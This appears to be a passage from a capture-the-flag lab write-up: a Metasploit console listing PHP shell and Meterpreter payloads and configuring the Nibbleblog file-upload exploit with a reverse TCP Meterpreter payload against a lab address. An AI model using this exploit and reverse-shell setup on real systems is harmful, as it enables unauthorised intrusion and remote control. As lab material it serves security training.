```console
   generic/shell_bind_tcp                               normal  Generic Command Shell, Bind TCP Inline
   generic/shell_reverse_tcp                            normal  Generic Command Shell, Reverse TCP Inline
   php/bind_perl                                        normal  PHP Command Shell, Bind TCP (via Perl)
   php/bind_perl_ipv6                                   normal  PHP Command Shell, Bind TCP (via perl) IPv6
   php/bind_php                                         normal  PHP Command Shell, Bind TCP (via PHP)
   php/bind_php_ipv6                                    normal  PHP Command Shell, Bind TCP (via php) IPv6
   php/download_exec                                    normal  PHP Executable Download and Execute
   php/exec                                             normal  PHP Execute Command 
   php/meterpreter/bind_tcp                             normal  PHP Meterpreter, Bind TCP Stager
   php/meterpreter/bind_tcp_ipv6                        normal  PHP Meterpreter, Bind TCP Stager IPv6
   php/meterpreter/bind_tcp_ipv6_uuid                   normal  PHP Meterpreter, Bind TCP Stager IPv6 with UUID Support
   php/meterpreter/bind_tcp_uuid                        normal  PHP Meterpreter, Bind TCP Stager with UUID Support
   php/meterpreter/reverse_tcp                          normal  PHP Meterpreter, PHP Reverse TCP Stager
   php/meterpreter/reverse_tcp_uuid                     normal  PHP Meterpreter, PHP Reverse TCP Stager
   php/meterpreter_reverse_tcp                          normal  PHP Meterpreter, Reverse TCP Inline
   php/reverse_perl                                     normal  PHP Command, Double Reverse TCP Connection (via Perl)
   php/reverse_php                                      normal  PHP Command Shell, Reverse TCP (via PHP)

msf exploit(multi/http/nibbleblog_file_upload) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp

msf exploit(multi/http/nibbleblog_file_upload) > show options

Module options (exploit/multi/http/nibbleblog_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST      10.10.10.75      yes       The target address
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /nibbleblog      yes       The base path to the web application
   USERNAME                    yes       The username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
```